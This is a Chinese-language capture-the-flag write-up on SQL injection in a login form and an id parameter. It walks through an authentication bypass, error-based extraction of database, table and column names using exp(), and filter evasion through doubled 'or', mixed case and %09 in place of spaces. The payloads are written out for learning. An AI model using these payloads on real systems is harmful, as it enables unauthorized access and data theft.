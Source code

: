 ```
1. 得到注入点
username=1&password=2'   # 页面报错
username=1&password=2'||'1 # 提示登录成功 You are our member, welcome to enter
直接登录成功了，然后仔细看明白了为什么
因为运算优先级，select * from user where username='1' and password='2'||'1'    先执行and,在运算or
(username='1' and password='2') || '1'
false || '1'
false || true
true

2. 根据报错的特性，可以尝试报错注入了
这边把别人总结的10个报错函数都使用了，只有这个能用，其他九个应该是被过滤了
username=123&password=1'||exp(~(select * from(select database())a))||'0   #error_based_hpf
username=123&password=1'||exp(~(select * from(select group_concat(table_name) from information_schema.tables where table_schema in('error_based_hpf'))a))||'0  #ffll44jj,users
username=123&password=1'||exp(~(select * from(select group_concat(column_name) from information_schema.columns where table_name in('ffll44jj'))a))||'0   #value




```

<br>

### 认真一点！
总体参考pcat师傅的思路，自己在原有基础上边改边思考，过程学习到很多
#### 判断注入点
```sql
id=1 # You are in ................
id=0 # You are not in ...............
id=2 # You are not in ...............
显然表中只有一条数据，没有数据的情况会报出You are not in ...............

id=1aaa # You are in ................
由于ID字段为主键并且是数字类型，和字符比较时被隐式转换为 1。说明注入点是字符型
```

#### 猜解过滤字符
fuzz测试一下被过滤的字符

![fuzz-1](fuzz-1.png)


```sql
逐步构建一个的payload
id=0' or '1   # Sql injection detected!
id=0'or'1     # 返回You are not in可能是or问题，并且证明空格被过滤

尝试重写和大小写or
id=0'oorr'1   # You are in
id=0'Or'1     # You are in
说明or是被替换为空,这边是pcat师傅的思路，觉得很好
我直接使用了&&来替换，但是后期构建语句的时候因为or被替换，很难排错

绕过空格
id=0'/**/Or/**/'1  # You are not in ,如果能代替，执行肯定正常，所以失败
id=0'+Or+'1   # 同上
id=0'%09or%09'1 # 返回正常，绕过成功

在利用这个语句fuzz测试是否还存在字符是被替换成空的
id=0'Or''='    # You are in
id=0'Or'or'='  # 如果or是被替换为空，返回You are in，反之
```
